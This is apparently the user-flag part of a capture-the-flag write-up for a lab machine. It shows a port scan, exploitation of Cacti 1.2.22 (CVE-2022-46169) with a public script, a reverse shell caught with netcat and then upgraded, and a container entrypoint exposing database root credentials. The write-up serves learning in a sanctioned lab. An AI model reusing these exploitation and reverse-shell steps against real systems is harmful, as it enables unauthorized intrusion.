 ## User Flag

```shell
$nmap -sS -p- -n -Pn --min-rate 5000 -oN allports -vv 10.10.11.211
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We start by looking at port 80 which has a cacti login. Since we've just started the machine it makes no sense to try and login however, the cacti version caught my eye. Thus I searched for `` Cacti Version 1.2.22 `` on google and found a CVE. I downloaded the script from [exploit-db](https://www.exploit-db.com/exploits/51166) but it wasn't working. So I decided to try with metasploit although the exploit ''succeded'' I wasn't able to open a reverse shell. Then I found another exploit in [github](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit) that finally worked. Another option could have been debugging the metasploit exploit with tcdump however, that was my last resort.

```shell
$ python3 cacti.py
Enter the target address (like 'http://123.123.123.123:8080')http://10.10.11.211
Checking vulnerability...
App is vulnerable
Brute forcing id...
Enter your IPv4 address10.10.14.79
Enter the port you want to listen on7777
Delivering payload...
...
$ nc -lvp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.211 58160
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ ^Z
zsh: suspended  nc -lvp 7777
$ stty raw -echo;fg
[1]  - continued  nc -lvp 7777
                              script /dev/null -c bash
                                                      Script started, output log file is '/dev/null'.
                                                                                                     bash-5.1$
bash-5.1$ export TERM=xterm
```

Although it seems we are in the machine after inspecting the ''machine'' for a bit It's easy to realize this is just a docker container. Luckily enough the entrypoint gives us some useful information.

```shell
bash-5.1$ cat /entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
```